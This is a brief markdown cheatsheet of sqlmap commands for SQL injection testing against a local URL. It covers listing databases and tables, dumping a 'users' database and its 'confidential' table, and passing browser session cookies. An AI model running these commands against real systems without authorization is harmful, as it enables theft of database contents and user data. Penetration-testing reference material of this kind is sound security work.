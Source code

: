 ```yaml
---
title: "SQLMap Cheatsheet"
date: 2019-11-10T23:30:00+05:30
description: "SQLMap Cheatsheet"
tags: [sqlmap]
---
```


### NOTE: All dumps can be found in $HOME/.sqlmap folder

### Scan a URL
```bash
sqlmap -u <url>
```
```bash
sqlmap -u http://127.0.0.1?id=65
```

### List all the database
```bash
sqlmap -u http://127.0.0.1?id=65 --dbs
```

### List Tables in the Users database
```bash
sqlmap -u http://127.0.0.1?id=65 --tables -D users
```

### Dump all tables from users databse
```bash
sqlmap -u http://127.0.0.1?id=65 --dump -D users
```

### Dump confidential table from users databse
```bash
sqlmap -u http://127.0.0.1?id=65 --dump -D users -T confidential
```

### Dump confidential table from users databse with cookies
```bash
sqlmap -u http://127.0.0.1?id=65 --dump -D users -T confidential --cookie='cookie1=val1;cookie2=val2'
```

Where `cookie1`, `cookie2` are cookie name and `val1` & `val2` are their values respectively, you can obtain it from browser dev tools.